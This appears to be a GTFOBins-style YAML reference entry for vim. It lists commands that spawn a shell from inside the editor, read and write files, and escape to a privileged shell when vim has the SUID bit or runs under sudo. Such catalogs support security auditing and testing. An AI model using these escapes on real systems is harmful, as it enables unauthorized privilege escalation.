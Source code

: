 ```yaml
---
functions:
  execute-interactive:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
  file-write:
    - code: |
        vim file_to_write
        w
  file-read:
    - code: vim file_to_read
  suid-enabled:
    - code: ./vim -c ':!/bin/sh -p'
  sudo-enabled:
    - code: sudo vim -c ':!/bin/sh'
---
```

